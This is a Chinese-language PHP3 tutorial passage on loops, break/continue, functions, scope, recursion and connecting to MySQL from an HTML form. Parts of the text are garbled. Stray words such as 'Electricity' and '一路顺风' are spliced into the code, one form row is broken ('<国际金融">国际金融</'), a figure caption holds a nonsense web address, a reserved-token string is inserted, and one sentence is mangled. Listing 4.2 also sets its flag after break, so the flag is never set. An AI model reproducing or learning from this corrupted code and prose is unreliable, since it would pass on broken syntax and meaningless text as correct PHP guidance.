> 初始化表达式通常是赋值表达式。在创建初始化赋值时，确保不要将相等运算符 (==) 与赋值运算符 (=) 混淆。否则，这可能是程序中微妙错误的根源。例如，$index == 0 是不正确的。正确的表达式是 Electricity $index = 0。

条件表达式用于控制循环是继续还是停止。当条件表达式计算为 false（也称为零）时，循环结束。

操作表达式以某种方式修改条件表达式中使用的变量（循环变量），每次执行代码块时都会执行。

for 语句最基本的用途之一是从零数到某个数字。例如：

```
for ($loop_variable = 0;
     $loop_variable < 100;
     $loop_variable++) {
    echo "Inside Loop: loop_variable = $loop_variable<br>";
}
```

这条语句显示从 0 到 99 的数字：

```
Inside Loop: loop_variable = 0
Inside Loop: loop_variable = 1
...
Inside Loop: loop_variable = 98
Inside Loop: loop_variable = 99
```

循环结束时，$loop_variable 的值为 100。这个值不显示，因为在打印 99 之后，执行操作表达式导致值增加到 100。然后条件表达式计算为 false，循环结束。

> 操作表达式（或语句块内的代码）必须改变循环变量的值或使用本章后面讨论的 break 关键字，这一点至关重要。否则，循环永远不会终止；相反，它会变成一个无限循环。

For 循环也可以通过使操作表达式递减循环变量来倒计数：

```
for ($loop_variable = 100;
     $loop_variable > 0;
     $loop_variable--) {
    echo "Inside Loop: loop_variable = $loop_variable<br>";
}
```

这条语句显示从 100 到 1 的数字：

```
Inside Loop: loop_variable = 100
Inside Loop: loop_variable = 99
...
Inside Loop: loop_variable = 2
Inside Loop: loop_variable = 1
```


 逗号可用于在初始化表达式中为多个变量赋值。下面的示例展示了如何初始化多个变量，并展示了循环语句中嵌套循环语句：

```
for ($row = 0; $row <= 2; $row++) {
  for ($col_value = 0, $col = 0; $col <= 2; $col++) {
    $col_value += $row + $col;
    echo "[$row, $col] = $col_value<br>";
  }
}
```

这些 for 语句显示

```
[0,0] = 0
[0,1] = 1
[0,2] = 3
[1,0] = 0
...
[2,1] = 5
[2,2] = 9
```

每次启动内部循环时，$col_value 都会重新初始化为零。

到目前为止，我们只看了将循环变量递增或递减一。然而，操作表达式具有无限的灵活性。你可以根据需要以任何方式更改循环变量。你还可以使用逗号来执行多个操作。例如：

```
$int_number_of_items = 10;
```

```
// 下面的 for 循环将每个
// 表达式放在循环头部的单独一行上
// 以提高可读性。
for ($first_time = 1, $index = 1;
    $index <= $int_number_of_items;
    $index += 2, $first_time = 0
    ) {

  if ($first_time) {
    echo "Report Header<br><br>";
  }

  echo "Report Line $index<br>";

}
```

```
if (! $first_time) {
  echo "<br>Report Footer<br>";
}
```

这几行代码显示

Report Header

Report Line 1
Report Line 3
Report Line 5
Report Line 7
Report Line 9

Report Footer

注意，循环变量 ($index) 在每次循环迭代后增加二。此外，$first_time 变量控制报告页眉和页脚的显示。

如果你将 $int_number_of_items 的初始值更改为 0，则不会显示任何内容。当条件表达式首次求值时，$index 的值为 1，$int_number_of_items 的值为 0。因此，语句块不会进入，操作表达式也不会执行。这导致 $first_time 的值保持为 1，并且在循环结束时不会显示报告页脚。

## while 关键字

While 循环在某个条件为真时重复执行语句块。如果条件在到达 while 语句之前不为真，则语句块永远不会执行。

while 循环的语法是

1.
```
while ( CONDITION ) {
    // statement block.
}
```

2.
```
while ( CONDITION ) :
    // statement block.
endwhile;
```

下面的示例展示了 `while` 语句使用起来多么简单：

```
$index = 0;
while ( $index < 5 ) :
  echo "inside while statement: $index<br>";
  $index++;
endwhile;
echo "outside while statement: $index<br>";
```

此示例显示

```
inside while statement: 0
inside while statement: 1
inside while statement: 2
inside while statement: 3
inside while statement: 4
outside while statement: 5
```

注意，当 `while` 语句结束时，`$index` 的值是 **5**——而不是你可能从条件表达式 (`$index < 5`) 中预期的 4。当 `$index` 为 4 时，条件表达式为真，执行语句块，将 `$index` 递增到 5。然后再次执行条件表达式，但这一次表达式为假，语句结束。

如果 `$index` 的值大于 5（比如说，**8**），当 `while` 语句开始时，下面的示例显示

```
outside while statement: 8
```

## do 关键字

Do 循环在表达式为假时执行语句块。测试与 `while` 循环完全相反，`while` 循环测试的是真表达式。Do 循环也不同，因为表达式在语句块执行之后而不是之前进行测试。这意味着语句块总是至少执行一次。

do 循环的语法是

```
do {
  // statement block
} while ( CONDITION );
```

几乎每个循环都可以用 `while` 或 `do` 语句来表达。这只是你如何表达程序逻辑以及哪种方式让你感觉更舒适的问题。有时，说"如果页数小于 20 就打印页面"比说"当页数小于 20 时打印页面"更有意义。

下面的 do 语句是本章前面所示 while 示例中示例循环的替代版本：

```
$iindex = 0;
do {
  echo "Inside Do Statement: $iindex<br>";
  $iindex++;
} while ($iindex < 5);
echo "Outside Do Statement: $iindex<br>";
```

此示例显示

```
Inside Do Statement: 0
Inside Do Statement: 1
Inside Do Statement: 2
Inside Do Statement: 3
Inside Do Statement: 4
Outside Do Statement: 5
```

与 while 循环一样，$iindex 变量的最终值为 5。然而——与 while 循环不同——如果 $iindex 的初始值为 8，则语句块至少执行一次。当 $iindex 初始化为 8 时，以下行显示：

```
Inside Do Statement: 8
Outside Do Statement: 9
```

## 跳转语句

PHP 提供了两个语句来帮助控制循环的行为：break 和 continue。

### break 关键字

Break 语句使 PHP 停止执行当前语句块；执行从当前语句块之后的语句重新开始。下面的示例展示了如何在简单的 for 循环中使用 break 语句。

### **清单 4.1** *break.php3*—使用 **break** 语句退出 **for** 循环

```
<?php
  for ($index = 0; $index < 10; $index++) {
    // A. 当 $index 为 3 时，循环结束。
    if ($index == 3) {
      break;
    }
    echo "$index<br>";
  }
  // B. break 之后，执行从这里开始。
  echo "After the loop: index=$index<br>";
?>
```

此脚本显示

```
0
1
2
After the loop: index=3
```

**break** 语句的一个方面令人烦恼。循环语句结束后（在上面的代码中的点 B），你无法判断循环语句是因为 **break** 语句而结束，还是达到了"自然"结束。至少，如果不测试 `$index` 的值就无法判断——而该值取决于导致 **break** 语句结束的条件。每次循环的 `$index` 测试都会改变。因此，循环后 `$index` 测试的目的在不经注释的情况下无法立即识别。

为了规避这一限制，使用变量作为"标志"。如果变量的值为 1（意味着它在挥舞），则执行 **break** 语句；否则循环正常结束。我们的下一个示例，清单 4.2，展示了标志变量的使用。

### **清单 4.2** *flag.php3*—使用标志变量与 **break** 语句

```
<?php
  $flg_break_happened = 0;
  for ($index = 0; $index < 10; $index++) {
    if ($index == 3) {
      break;
      $flg_break_happened = 1;
    }
    echo "$index<br>";
  }

  if ($flg_break_happened) {
    echo "Loop ended because of break.<br>";
  }
  else {
    echo "Loop ended naturally.<br>";
  }
?>
```

此脚本显示

```
0
1
2
Loop ended naturally.
```

我们需要再探讨 break 语句的一个方面，那就是如何跳出嵌套循环。清单 4.3 展示了这一技术。

### 清单 4.3 nested_breaks.php3—跳出嵌套循环

```
<?php
  for ($row = 0; $row < 10; $row++) {
    for ($col = 0; $col < 10; $col++) {
      if ($col == 5) {
        break 2;
      }
      echo "[$row,$col]<br>";
    }
  }
?>
```

此脚本显示

```
[0,0]
[0,1]
[0,2]
[0,3]
[0,4]
```

正如你所见，在 break 语句中添加表达式可以告诉 PHP 要跳出多少层嵌套。

### **continue** 关键字

**continue** 关键字中止循环的当前迭代并立即开始下一次迭代。对于 for 循环，下一次迭代从操作表达式开始。清单 4.4 展示了 **continue** 关键字的实际应用。

### 清单 4.4 *continue.php3*—使用 **continue** 关键字

```
<?php
  for ($index = 0; $index < 5; $index++) {
    if ($index == 3) {
      continue;
    }
    echo "$index<br>";
  }
?>
```

此脚本显示

```
0
1
2
4
```

注意 3 没有显示。语句块内的 if 语句导致语句块停止并在 for 循环的操作子句处重新开始。因此，第三次迭代跳过了 echo 语句。

在处理嵌套循环时，你可以在 **continue** 语句中使用表达式，如清单 4.5 所示。

### 清单 4.5 *nested_continue.php3*—在处理嵌套循环时使用 **continue** 语句

```
<?php
  for ($row = 0; $row < 3; $row++) {
    for ($col = 0; $col < 3; $col++) {
      if ($col == 2) {
        continue 2;
      }
      echo "[$row,$col]<br>";
    }
    echo "<br>";
  }
?>
```

这段脚本显示

```
[0,0]
[0,1]
[1,0]
[1,1]
[2,0]
[2,1]
```

注意，内层循环总是在 2 处结束。而且 `echo "<br>";` 语句没有执行（因为输出中没有空行）。因此，`continue 2;` 语句一定是停止了内层循环，并以外层 for 循环的 `$row++` 操作子句重新开始。

如果你确实需要在内层 for 循环完成后显示一个空行呢？清单 4.5 表明，简单地将 `echo` 语句放在内层 for 循环结束之后是不够的，因为 continue 语句会跳过它。你可能会想到在外层 for 循环的操作子句中使用逗号来绕过这个问题。例如：

```
for ($row = 0; $row < 3; $row++, echo "<br>") {
    for ($col = 0; $col < 3; $col++) {
        if ($col == 2) {
            continue 2;
        }
        echo "[$row,$col]<br>";
    }
}
```

这些循环显示

```
Parse Error: parse error in
nested_continue.php3 on line 3
```

哪里出错了？原来语法规则禁止在操作子句中使用 **echo** 命令。需要使用 **print** 命令代替：

```
for ($row = 0; $row < 3; $row++, print "<br>") {
    for ($col = 0; $col < 3; $col++) {
        if ($col == 2) {
            continue 2;
        }
        echo "[$row,$col]<br>";
    }
}
```

这段脚本显示

```
[0,0]
[0,1]

[1,0]
[1,1]

[2,0]
[2,1]
```

## 函数（Functions）

*函数（Functions）* 帮助你把代码组织成易于理解和处理的片段。它们让你逐步构建程序，并在过程中测试代码。

当你有了程序的想法后，你需要制定程序大纲，无论是在脑海中还是在纸上。大纲中的每一步可能是程序中的一个函数。这被称为*模块化编程*，一种让你隐藏编程细节的技术，这样阅读源代码的人就能理解程序的整体目标。

例如，如果你的程序有一个计算圆面积的函数，可以用以下代码行来调用它：

```
$flt_area_of_circle = area_of_circle(5);
```

通过查看函数调用，读者就知道程序在做什么。不需要详细了解实际函数的内部实现。

## 提示（Tip）

> 经过深思熟虑的函数名和变量名有助于人们理解你的程序。如果代码行是 $areaFC = areaCirc($fRad);，其含义就不会那么清晰。

## 注意（Note）

> *调用函数* 意味着 PHP 停止执行当前的程序行序列。程序流跳转到函数内部的程序代码。当函数执行完毕后，PHP 跳回到函数调用发生的位置。程序从该点继续执行。

让我们更仔细地看看函数调用。这一行首先是一个标量变量和一个赋值运算符。你已经知道这意味着赋值运算符右侧的值被赋给 $flt_area_of_circle。但右侧到底是什么呢？

你首先看到的是函数名：area_of_circle()。右侧紧跟着的括号表明这是一个函数调用。括号内部是传递给函数的参数或值列表。你可以把参数想象成橄榄球。当球传出去后，接球手（例如，函数）有几种选择：带球跑（以某种方式修改它）、传球（调用其他例程）、丢球（调用错误处理程序）。

定义函数的语法是

```
function functionName ( parameterList ) {
  // lines of code
}
```

函数名的限制很少——最重要的是它们不能以数字开头，也不能包含句点。参数列表是可选的，提供函数代码可以使用的特定值。

## 从函数返回值

每个 PHP 函数都可以向其调用者返回值。毕竟，如果你创建了一个计算圆面积的函数，那么在某个时刻需要将该值赋给一个变量是合理的。清单 4.6 展示了一个调用并定义 area_of_circle() 函数的简短程序。

## 清单 4.6 area_of_circle.php3 —— 计算圆的面积

```
<?php
  function area_of_circle( $flt_radius ) {
    return(3.1415 * ($flt_radius * $flt_radius));
  }

  $flt_area_of_circle = area_of_circle(5);

  echo "The area is $flt_area_of_circle.<br>";
?>
```

这段程序显示

```
The area is 78.5375.
```

这个例子展示了参数是如何传递给函数的（还记得橄榄球吗？）。参数在函数名后面紧跟着的括号内指定。在清单 4.6 中，函数调用是 `area_of_circle(5)`。只显示了一个参数，即数字字面量 5。一旦进入函数内部，它就被引用为 `$flt_radius`。

函数的第一行

```
return(3.1415 * ($flt_radius * $flt_radius));
```

计算圆的面积并返回新计算出的值。有东西打印出来这一事实告诉你，程序流在调用 `area_of_circle()` 函数后返回到了 print 语句，并且计算出的值被赋给了 `$flt_area_of_circle`。

## 注意（Note）

> 某些编程语言区分函数（function）和子程序（subroutine）。区别在于函数返回值，而子程序不返回值。PHP 不做这种区分。一切都是函数，无论它是否返回值。

从函数返回值是一个不错的特性；然而，就 PHP 而言，这仅仅是冰山一角。你还可以返回一个值数组。清单 4.7 定义了一个名为 `create_list` 的函数，并将其返回值赋给 `$temp`。示例的结果如图 4.1 所示。

## 清单 4.7 create_list1.php3 —— 如何从函数返回列表

```
<?php
require('common.inc');

function create_list( ) {
  return array( 100, 200, 300, 400 );
}

$temp = create_list();

dump_array( $temp );
?>
```


这个例子将整个返回的数组赋给一个单一变量。有时，这可能不是处理返回数组最方便的方式。使用 PHP 的 list 函数，你可以将每个返回的元素赋给它自己的变量。例如：

```
list( $a, $b, $c ) = create_list();
```

执行此赋值操作后，$a 的值为 100，$b 的值为 200，$c 的值为 300。由于没有指定变量作为第四个数组元素的容器，其值丢失。

到目前为止，我们只看了简单的数组——即程序没有定义键值对的数组。如果返回的数组指定了键值，PHP 的反应会有所不同。清单 4.8 修改了返回的数组，使第二个元素具有特定的键。图 4.2 显示了示例程序的结果。

## 清单 4.8 create_list2.php3 —— 如何从函数返回列表

```
<?php
  require('common.inc');

  function create_list( ) {
    return array( 100, 'age' => 200, 300, 400 );
  }
```

```
list( $a, $b, $c ) = create_list();

dump_array( create_list() );

echo "a=$a<br>";
echo "b=$b<br>";
echo "c=$c<br>";
?>
```


注意，赋给 $b 的值是 300，而不是你可能条件下的 200。在评估 list 函数时，具有特定键的条目会被忽略。

## 向函数传递参数

通常 PHP 将参数的值传递到函数中。这意味着函数无法改变其参数列表中任何变量的值。看了下面的例子后，这个概念会变得更清楚：

```
function one( $parameter ) {
    $parameter++;
}

$a = 10;
one($a);
echo "a=$a<br>";
```

如果 `one()` 函数内部的自增操作影响了 `$a` 变量，你会期望 `echo` 函数显示 `a=11`。然而，事实并非如此。相反，这个例子显示 `a=10`。

设计修改其参数的函数通常不是个好主意。要解释原因，我们需要稍微深入一下编程哲学。当两段代码共享信息时，它们被称为紧耦合。当其中一段代码被更改时——也许是为了添加功能——通常另一段也需要更改。由于两段代码需要同时更改，出错的可能性很高。另一方面，如果你创建*松*耦合的代码，更改是独立的，错误的发生几率会降低。[^1]

[^1]: 原文此处有"On the gripping hand"的科幻梗，出自《The Mote in God's Eye》，中文常不直译。


 ```
function array_first( $arr_parameter ) {
  return($arr_parameter[0]);
}

$a = array_first( array(3, 5) );
echo "a=$a<br>";
```

此示例定义了一个执行简单任务的函数，即查找数组的第一个元素。请注意，这里使用了标准的数组元素表示法。将数组用作参数与使用标量参数没有区别。

## 为参数指定默认值

清单 4.9 default_values.php3—为参数指定默认值

```
<?一路顺风

  function font(
    $str_text,
    $str_color = 'blue',
    $int_size  = 2
  ) {
    echo "<font size=\"$int_size\"
color=\"$str_color\">$str_text</a>";
  }

?>
```

```
<?php font('This line is blue - size 2.'); ?>
<br>
<?php font('This line is red - size 2.', 'red'); ?>
<br>
<?php font('This line is green - size 4', 'green', 4); ?>
<br>
```

### 注意

默认变量赋值必须始终是函数定义中的最后几个参数。

This line is blue - size 2.
This line is red - size 2.
**This line is green - size 4**

图 4.3 `font()` 函数提供了默认值。

## 控制变量作用域

变量的作用域指的是程序中哪些部分可以访问和使用该变量。PHP 识别两种作用域——页面作用域和函数作用域。页面作用域涵盖单个网页，而函数作用域涵盖单个函数。通常，PHP 变量只能在其定义的作用域中可见。

当你需要在函数内部使页面作用域变量可见时，请使用 **global** 关键字，如下所示：

```
function one() {
  global $a;
  $a++;
}

$a = 10;
one($a);
echo "a=$a<br>";
```

此程序显示 a=11，这表明 `one()` 函数内部的代码能够访问页面作用域的 `$a` 变量。使用 **global** 关键字类似于按引用传递参数，因为这两种技术都允许你修改函数作用域之外的变量。

### 注意

在程序中使用 **global** 关键字之前，请三思程序的设计。也许使用函数参数同样可以达到目的。在函数内部使用页面作用域变量并不是最佳的编程技术，因为函数内部的代码应该与程序的其他部分隔离。想象一下，试图理解一个可以在任何（或每个）函数中更改页面作用域变量的程序——这将难以理解，不是吗？

## 嵌套函数调用

函数调用可以*嵌套*，以便一个函数可以调用另一个函数，后者又可以调用另一个函数，如此往复。具体可以嵌套多少层取决于许多因素。通常，你不必担心任何限制。清单 4.10 包含一个使用嵌套函数调用的程序。

**清单 4.11** `fibonacci.inc`—*使用递归函数计算斐波那契数列*

```
<?php
function Fibonacci( $var ) {

  // the fibonacci series is only defined for
  // positive values.
  if ($var < 0) {
    return( 0 );
  }

  // the first two elements in the series are
  // defined as zero and one and don't need
  // recursion.
  if ($var < 2) {
    return( $var );
  }

  // use recursion to find the previous two elements
  // in the series.
  return( Fibonacci($var-1) + Fibonacci($var-2) );
}?>
```

调用斐波那契函数的方式如下：

```
<?php
    // include the fibonacci function in
    // this script.
    require('fibonacci.inc');

    // call the fibonacci function with a
    // parameter of four.
    $n = Fibonacci(4);

    // display the result of the fibonacci call.
    echo "$n<br>";
?>
```

让我们检查一下当斐波那契函数以参数 4 调用时的执行过程。每次斐波那契函数调用自身时，就会发生另一层递归。在第 0 层是对函数的初始调用：

第 0 层：

```
$n = Fibonacci(4);
```

因为 4 大于 3，所以执行最后一条 return 语句，并开始新的一层递归。

第 1 层：

```
return( fibonacci(3) + fibonacci(2) );
```

此时，函数递归两次。一次使用值 3，另一次使用值 2。这些对斐波那契函数的调用导致了另一层递归，因为 3 和 2 都不小于 2。以下是递归的层次：

第 2 层：

```
return( fibonacci(2)+fibonacci(1) +
fibonacci(1)+fibonacci(0) );
```

```
第 3 层：

return( fibonacci(1)+fibonacci(0)+1 + 1+0 );
```

```
第 2 层：

return( 1+0+1 + 1+0 );
```

```
第 1 层：

return( 2 + 1 );
```

```
第 0 层：

return( 3 );
```

随着递归展开，每一层的结果被用于其上一层，如上所示。第 0 层的最终结果是 3。重要的是，每个递归函数都必须有办法停止递归。`Fibonacci` 函数在其参数为 1 或 0 时不进行递归。因为数组可以是递归的，所以处理数组的函数也必须是递归的，这是合理的。清单 4.12 展示了 `array_dump` 函数，该函数显示 PHP 数组的键值对。

## 清单 4.12 array_dump.inc—使用递归函数显示数组的键值对

```
<?php
  function array_dump( $var ) {

    // The gettype function returns the data type
    // of its parameter.

    switch (gettype($var)) {

      // integer, double, and strings are simply
      // displayed.

      case 'integer':
      case 'double':
      case 'string':
        echo "$var";
        break;

      // array datatypes need to specially
      // handled.

      case 'array':
        // if the array has no entries, display
        // a message.

        if (! count($var)) {
          echo 'Empty Array.<br>';
        }
        else {
          // the array has entries, so start an
          // HTML table to display them.

          echo '<table border="1" width="100%">';
          echo '<tr>';
          echo '<th>Key</th>';
          echo '<th>DataType</th>';
          echo '<th>Value</th>';
          echo '</tr>';

          // use a do loop to iterate over the
          // entries in the array.

          do {
            echo '<tr><td align="left" valign="top">';
            echo key($var);
            echo '</td><td align="left" valign="top">';
            echo gettype(key($var));
            echo '</td><td align="left" valign="top">';

            // perform the magic of recursion using the
            // VALUE of the current key/value pair.

            array_dump($var[key($var)]);

            echo "</td></tr>";
          } while (next($var));

          // end the HTML table after all of the
          // array entries have been displayed.

          echo "</table>";
        }
        break;

      // switch statements should always have a default
      // clause - just in case the data has a value
      // your program doesn't expect.

      default:
```


`array_dump` 函数用于<|reserved_token_163642|> 接口

```
<?php
// 包含 array_dump 函数
// 在此脚本中。
require('array_dump.inc');

// 定义一个数组。
$arr_test = array(
  23, 24, 25
  ,'name' => 'Waldo'
  ,'address' => array(
    'line1' => 'Suite 300'
    ,'line2' => '43 Broad Lane'
  )
);

// 显示该数组。
array_dump($arr_test);
?>
```

当显示 `$arr_test` 数组时，结果应如图 4.4 所示。



## 小结

本章涵盖了 PHP 表达式、语句和函数；涉及的内容相当广泛。然而，在开始更令人兴奋的应用程序开发工作之前，这些基础信息是必需的。

我们了解到，表达式是运算符和操作数的任意组合。操作数可以是任何变量、字面量或函数调用。一些包含自增或自减运算符的表达式可能会有副作用。如本章语句部分所述，表达式用于控制决策、循环和跳转语句。

语句可以简单到只是一个带有分号的表达式。例如，`$n = 5;` 就是一个赋值语句。语句也可以复杂得多。包括决策语句、循环语句和跳转语句。

`if` 和 `switch` 语句都被视为决策语句。每个语句都会计算一个表达式，然后根据表达式的值执行相应的语句块。

循环语句包括 `for`、`while` 和 `do` 循环。它们的目的是多次执行一个语句块。`for` 循环最为复杂——它们有初始化、条件和操作子句。初始化表达式在 `for` 循环开始时执行。当条件表达式为假时，`for` 循环结束。每次语句块迭代后，执行操作表达式。`while` 循环可能永远不会执行其语句块，因为它的条件表达式先被计算。另一方面，`do` 循环总是执行其语句块——条件表达式在之后才被计算。

函数用于将程序划分成可管理的部分。它们可以接受多个参数，甚至可以为参数设置默认值。在函数内部使用的变量只能从该函数内部访问。当你需要访问由网页定义的变量时，使用 **global** 关键字。

在处理数组或某些数学概念时，你可能需要递归函数。递归函数会调用自身。请记住，所有递归函数都需要一种不通过递归就能退出方式。

下一章"插曲一：连接数据库"将让你暂时放下 PHP 基础知识的学习。你将看到如何连接到 MySQL 数据库以及如何处理来自 HTML 表单的信息。

# 插曲一：连接数据库

前两章重点介绍了学习 PHP 语言。现在是时候通过开始创建一个应用程序来休息一下了。本章的应用程序将创建一个与 MySQL 数据库的连接。

如果你已经阅读了前两章，你就知道如何用 PHP 操作内部数据以及如何创建语句和函数。下一个合乎逻辑的步骤是学习如何使用 SQL（即*结构化查询语言*）操作外部数据。然而，在着手这个主题之前，让我们暂时放下基础知识的学习，找点乐子。

我将带你踏上一段发现之旅，体验应用程序开发的过程。毫不夸张地说，每个应用程序都可以是独特的。或者每个应用程序都可以在以前工作的基础上构建，基于一组通用功能。我建议将两种技术结合起来使用。盲目地使用为以前项目构建的功能，会使你失去在开发语言中支持新特性能力，并阻碍你修改旧函数以提高其效率。另一方面，使用现有功能意味着你可以更快地开发应用程序。你需要在两个极端之间走一条细线，才能成为一名优秀的程序员。

### 注意

> 如果你不熟悉 HTML，现在是学习的时候了。在本书中，假定你已经了解 HTML，如果你不理解 HTML 表格和表单，很快就会迷失方向。

## 开局

每当我开始一个新项目时，我喜欢从一个新的空目录开始。在本例中，我们将其命名为 `phpbook/ch05`。当然，该目录需要位于 Web 服务器的根目录中。如果你按照第 1 章中的说明安装 PHP，Web 服务器的根目录是 `/usr/local/apache/htdocs`。接下来，我们将创建一个 `menu.php3` 文件，如清单 5.1 所示，用于保存后端管理任务的菜单。

### 清单 5.1 menu.php3

```
<?php require('common.inc'); ?>
<?php affy_header('Administrative Menu') ?>
<h1>Administrative Menu</h1>
<ol>
  <li><a href="connect.php3">Create Database Connection</a></li>
</ol>
<?php affy_footer() ?>
```

**common.inc** 文件包含 **affy_header** 和 **affy_footer** 函数的定义。这些函数将在本章后面介绍。

## 建立连接

当点击"Create Database Connection"链接时，将执行 **connect.php3** 文件。该文件尝试与你第 2 章中安装的 MySQL 数据库服务器建立连接。

清单 5.2 显示了 **connect.php3** 文件，该文件尝试使用用户名 **codebits** 和密码 **codebits** 连接到数据库。由于该用户名在你安装 MySQL 时并未创建，连接注定会失败。然而，失败——至少在这种情况下——是好事，因为我们可以看到如何处理这个问题。图 5.1 显示了由于连接问题而显示的错误消息和表单。

**清单 5.2** *connect.php3*

```
<?php
  // 包含
  // affy_message 函数的定义。
  require('common.inc');
?>
```

```
<?php

  // 尝试建立连接。@ 符号用于
  // 抑制连接函数生成的错误消息。
  // 取而代之的是检查 $id_link 变量。
  //
  $id_link = mysql_connect('localhost', 'phpuser', 'phpuser');

  // 如果连接失败，$id_link 变量为
  // false，条件变为 true。
  //
  if (! $id_link) {

    // 显示格式化消息。
    affy_message(
      "The connection to the local database has failed. Please
         enter a username and password so a connection can be made."
    );
?>
```

```
<!-- 显示表单以收集用户名和密码信息 -->
<form action="connect.php3" method="post">
<table>
<tr>
  <td>Username</td>
  <td><input type="text" name="username" value="root"></td>
</tr>
<tr>
  <td>Password</td>
  <国际金融">国际金融</
  <td><input type="password" name="password"></td></tr>
<tr>
  <td colspan="2">
    <input type="submit" value="Connect to Database">
  </td>
</tr>
</table>
</form>

<?php } ?>
```



图 5.1 手动对话框。www.sSognansiontotesagmarkets，他们可以输入 root 账户的密码。正如你将在本章后面看到的，拥有 root 密码使我们能够创建 codebits 用户。目前，请忽略关于 $arr_request 数组的部分。

当调用 `mysql_connect` 函数且连接失败时，`mysql_connect` 函数通常会显示：

```
Warning: MySQL Connection Failed: Access denied for user: `codebits@localhost` (Using password: YES)
```

大多数应用程序需要精确控制显示的内容，尤其是高度图形化的应用程序。在 `mysql_connect` 函数前使用 at 符号（@）可以抑制错误消息的显示。

请注意，form 语句的 action 属性指定了当点击提交按钮时执行 `connect.php3` 文件。这是递归编程的一个例子，即让 `php3` 文件调用自身。

我使用递归编程技术将与单个"主题"相关的所有代码放在同一个文件中。决定何时将功能合并到一个文件中，或将代码拆分到多个文件中，需要一些经验。我的经验法则是，当实现特定功能的代码超过大约 100 行时，就创建一个单独的文件。

## 访问 HTML 表单信息

如果你输入密码并点击 Connect to Database，连接仍然会失败，因为 `connect.php3` 在进行数据库连接时没有使用表单中输入的值。

PHP 引擎将每个表单字段放入名为 `$HTTP_POST_VARS` 的数组中。在我们上面的例子中，该数组有两个条目：*username* 和 *password*。在脚本内部，你可以通过 `$HTTP_POST_VARS['username']` 和 `$HTTP_POST_VARS['password']` 访问表单信息。

使用 `$HTTP_POST_VARS['password']` 访问表单信息看起来很简单，但你会发现一些隐藏的"陷阱"。第一个是检查字段名称（在本例中为 'password'）是大写、小写还是混合大小写。

第二个"陷阱"涉及一个与我们的示例没有直接关系的话题。除了通过表单运行，PHP 脚本也可以使用 URL 运行。例如：

```
http://.../connect.php3?username=root&password=password
```


你可以看到用户名和密码信息是通过 URL 传递的。它是字段信息，而 & 字符用于分隔字段。幸运的是，PHP 引擎会自动解析 URL 行。解析结果会被放入 `$HTTP_GET_VARS` 数组中。

需要注意的"陷阱"（如果你认为它是的话）是你的脚本可以从多个位置获取信息——既可以是 `$HTTP_GET_VARS` 数组，也可以是 `$HTTP_POST_VARS` 数组。

我对付这些（及其他）陷阱的解决方案是创建一个 `$arr_request` 数组，用来自这两个 `$HTTP` 数组的信息进行初始化。我在 `common.inc` 中使用以下代码来初始化 `$arr_request` 数组：

```
// declare the request array which holds both
// url-based (get) and form-based (post) parameters.
$arr_request = array();

// move the url and form parameters into the
// request array. Form parameters supercede url
// parameters. Additionally, all keys are converted
// to lower-case.
if (count($HTTP_GET_VARS)) {
    while (list($key, $value) = each ($HTTP_GET_VARS)) {
        $arr_request[strtolower($key)] = $value;
    }
}
if (count($HTTP_POST_VARS)) {
    while (list($key, $value) = each ($HTTP_POST_VARS)) {
        $arr_request[strtolower($key)] = $value;
    }
}
```

如果你在所有的 PHP 脚本中都包含 `common.inc` 文件，那么你的脚本是如何运行的就无关紧要了。所有传递的信息最终都会进入 `$arr_request` 数组，且键名为小写。这意味着用户名信息可以通过 `$arr_request['username']` 来访问。

PHP 提供了 `$HTTP_GET_VARS` 和 `$HTTP_POST_VARS` 数组的替代方案。HTML 表单和基于 URL 的信息也可以直接作为 PHP 变量访问。例如，从定义为 `<input type="input" name="last_name">` 的字段中获取的表单信息可以在 PHP 脚本中使用 `$last_name` 来访问。类似地，来自 URL 的信息，如 `http://www.site.com?last_name=john`，也可以通过 `$last_name` 来访问。然而，我仍然更喜欢使用 `$arr_request` 数组，因为它便于遍历传递给脚本的所有信息。如果这些信息以标量变量的形式存在，就无法进行遍历。例如，将所有参数名改为大写可以确保不会因为按错 shift 键而导致脚本出错。或者你可能需要显示所有脚本输入参数以用于调试目的。

> **注意**
> 本节对 CGI（即*通用网关接口*）协议进行了非常浅显的介绍。更多信息可以在附录 A "Internet 资源" 中找到。

## 使用 HTML 表单信息

当表单信息可用时，`count` 函数的结果大于 1，使得 `if` 语句执行 true 子句，该子句从 `$arr_request` 数组中提取用户名和密码信息。

当不存在表单信息时，用户名和密码仍然使用字符串字面量进行初始化。

除了存在包含这两个字段的表单和不存在表单信息这两种情况外，还存在第三种可能。如果 `connect.php3` 被一个没有 username 和 password 字段的表单调用呢？如果是这样，这段代码将会失败。你可以通过直接检查表单字段而不是依赖 `arr_request` 数组中的元素数量来使这段代码更加健壮（即能够处理环境中的故障）。例如：

```
$username = $arr_request['username'];
$password = $arr_request['password'];

if (empty($username)) $username = 'phpuser';
if (empty($password)) $password = 'phpuser';
```

由于 PHP 对未初始化的数组元素返回空字符串，上述代码非常简洁。将值从 `$arr_request` 复制到单个变量中。使用标量变量的可读性更好，且比使用数组变量效率稍高一些。然后，如果这些变量中的任何一个为空——意味着表单没有提供值——则提供默认值。

清单 5.3 展示了包含这两项修改后的 `connect.php3` 文件，以便你在上下文中查看它们。

### 清单 5.3 修订后的 connect.php3

```
<?php require('common.inc'); ?>

<?php
    $username = $arr_request['username'];
    $password = $arr_request['password'];

    if (empty($username)) $username = 'phpuser';
    if (empty($password)) $password = 'phpuser';
?>

<?php
    $id_link = @mysql_connect('localhost', $username,
$password);
```

```
if (! $id_link) {
  affy_message(
    "The connection to the local database has failed.
Please enter a
    username and password so a connection can be made."
  );
?>
<form action="connect.php3" method="post">
<table>
<tr>
  <td>Username</td>
  <td><input type="text" name="username"
value="root"></td>
</tr>
<tr>
  <td>Password</td>
  <td><input type="password" name="password"></td>
</tr>
<tr>
  <td colspan="2">
    <input type="submit" value="Connect to Database">
  </td>
</tr>
</table>
</form>

<?php exit; } ?>
```

数据库连接成功！

当在表单中输入正确的 root 密码（如图 5.2 所示）时，数据库连接成功。

**图 5.2** 数据库连接成功的证据。

## common.inc 文件

清单 5.4 展示了本章所需的 `common.inc` 版本。

### 清单 5.4 common.inc——一组供多个应用程序使用的例程

```
<?php

  function affy_footer() {
    echo '</body></html>';
  }

  function affy_header($title) {
    echo '<html><head><title>';
    echo "$title";
    echo '</title></head><body>';
  }

  function affy_message($msg) {
    echo '<table>';
    echo '<tr><td>';
    echo "$msg";
    echo '</td></tr>';
    echo '</table>';
  }
?>
```

## 小结

本章展示了如何使用 PHP 连接数据库。第一步创建了一个菜单网页，用于运行"连接数据库"脚本。然后创建了 `connect.php3` 文件来执行实际的工作。

